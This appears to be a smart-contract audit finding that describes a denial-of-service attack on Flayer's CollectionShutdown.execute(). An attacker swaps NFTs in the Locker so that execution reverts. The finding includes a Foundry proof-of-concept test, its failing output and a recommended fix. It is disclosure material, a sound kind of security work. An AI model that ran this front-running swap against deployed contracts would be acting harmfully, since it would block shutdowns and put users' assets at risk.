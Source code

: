 Warm Daisy Tiger

Medium

# DoS collection shutdown by swapping collection tokens

## Summary
The function `CollectionShutdown#execute()` will withdraw NFT tokens from `Locker` contract in order to list them on Sudoswap.
However, a malicious factor can replace the NFT tokens with other NFT tokens by using `Locker#swap()` function. This will cause `execute()` function to revert because can not withdraw tokens from `Locker` contract.

## Vulnerability Detail
The function `CollectionShutdown#execute()` [will withdraw NFT tokens from `Locker`](https://github.com/sherlock-audit/2024-08-flayer/blob/0ec252cf9ef0f3470191dcf8318f6835f5ef688c/flayer/src/contracts/utils/CollectionShutdown.sol#L253-L257).
However, the `Locker`  contract allows users to [swap tokens with the contract](https://github.com/sherlock-audit/2024-08-flayer/blob/0ec252cf9ef0f3470191dcf8318f6835f5ef688c/flayer/src/contracts/Locker.sol#L241-L287) without any fees as long as within the same collection.
By this mechanism, an malicious can replace the [tokens specified in calldata of the call to `execute()`](https://github.com/sherlock-audit/2024-08-flayer/blob/0ec252cf9ef0f3470191dcf8318f6835f5ef688c/flayer/src/contracts/utils/CollectionShutdown.sol#L231) to block the shutdown execution.
Note that if the `owner` of `CollectionShutdown` is a multisig or a DAO, then the attack is more feasible because it is easy for the attacker to monitor for `execute()` transaction from owner

### PoC

Add the test below to file `CollectionShutdown.t.sol`:
```solidity
function test_DoS_Execute_2() public withDistributedCollection{
        collectionShutdown.vote(address(erc721b));
        assertCanExecute(address(erc721b), true);

        uint[] memory tokenIds = _mintTokensIntoCollection(erc721b, 3);

        // assume that attacker has a NFT of the collection
        address malicious = makeAddr("malicious");
        erc721b.mint(malicious, 123);

        // swap token
        vm.startPrank(malicious);
        erc721b.setApprovalForAll(address(locker), true);
        locker.swap(address(erc721b), 123 , 0);
        vm.stopPrank();

        // this will revert 
        collectionShutdown.execute(address(erc721b), tokenIds);
    }
```

Run the test and console shows:
```bash
Failing tests:
Encountered 1 failing test in test/utils/CollectionShutdown.t.sol:CollectionShutdownTest
[FAIL. Reason: revert: ERC721: transfer from incorrect owner] test_DoS_Execute_2() (gas: 1070583)
```


## Impact

## Code Snippet
https://github.com/sherlock-audit/2024-08-flayer/blob/0ec252cf9ef0f3470191dcf8318f6835f5ef688c/flayer/src/contracts/utils/CollectionShutdown.sol#L253-L257

https://github.com/sherlock-audit/2024-08-flayer/blob/0ec252cf9ef0f3470191dcf8318f6835f5ef688c/flayer/src/contracts/Locker.sol#L241-L255

https://github.com/sherlock-audit/2024-08-flayer/blob/0ec252cf9ef0f3470191dcf8318f6835f5ef688c/flayer/src/contracts/Locker.sol#L268-L287

## Tool used

Manual Review

## Recommendation
Disable the swap feature when the collection shutdown is executable